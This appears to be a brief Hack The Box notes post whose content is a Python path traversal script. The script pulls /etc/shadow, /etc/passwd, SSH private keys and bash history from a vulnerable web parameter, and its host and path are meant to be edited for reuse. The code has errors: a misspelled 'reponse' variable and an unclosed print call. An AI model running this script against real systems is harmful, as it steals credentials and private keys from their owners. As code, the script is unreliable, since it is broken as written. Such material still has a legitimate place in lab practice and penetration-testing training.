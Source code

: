### 20-03-23
### Hack The Box - Path Traversal

Whilst the path can change for path traversal the majority of the time its the same files your interested in.

ive compiled a small list and added them to a python script that can be edited to fit the requirements.


### path-traversal.py
```python
import requests

host                = "test.htb"                                                    #edit this!
path_to_traverse    = "http://"+host+"/vurn.php?img=../../../../../../../../../"    #edit this!
user                = "admin"                                                       #edit this!
local_files         = ["/etc/passwd","/etc/hosts","/etc/hostname","/etc/crontab","/etc/shadow"]
user_files          = ["/.ssh/id_rsa","/.ssh/authorized_keys","/.bash_history","/.ssh/id_dsa","/.ssh/id_ecdsa","/.ssh/id_ed25519"]

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

for file in local_files:
    response = requests.get(path_to_traverse+str(file),headers=headers,verify=False,)
    if reponse.text:
        print (file)
        print (response.text)
        print ("--------------------------------------------------")

for path in user_files:
    response = requests.get(path_to_traverse+"/home/"+ user + path ,headers=headers,verify=False,)
    if reponse.text:
        print ("/home/"+ user + path)
        print (response.text)
        print ("--------------------------------------------------"
```
